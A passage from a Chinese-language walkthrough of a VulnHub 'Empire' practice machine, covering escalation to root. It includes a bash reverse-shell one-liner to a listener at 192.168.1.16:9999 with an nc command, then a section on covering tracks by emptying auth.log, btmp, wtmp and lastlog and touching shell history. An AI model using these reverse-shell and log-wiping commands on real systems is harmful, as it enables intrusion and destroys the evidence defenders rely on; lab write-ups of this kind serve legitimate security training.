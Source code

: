 

当然也可以尝试从网站重新登录，以`root`的身份，因为在前面查看`/etc/passwd`的时候，发现`cyber`是在其中的，说明`root`也有可能是能够登录网站的

![](D:\stu\vulnhub\empire靶场\pic-2\24.jpg)

```
bash -i >& /dev/tcp/192.168.1.16/9999 0>&1	在靶机执行
nc -lvvp 9999	在kali执行
```

![](D:\stu\vulnhub\empire靶场\pic-2\25.jpg)





提权到root成功

![](D:\stu\vulnhub\empire靶场\pic-2\26.jpg)







## 清除痕迹

#### 删除auth

```
echo > auth.log
```



#### 删除btmp

```
echo > btmp
```



#### 删除wtmp

```
echo > wtmp
```



#### 删除lastlog

```
echo > lastlog
```



#### 删除命令的历史记录

```
history -r
```

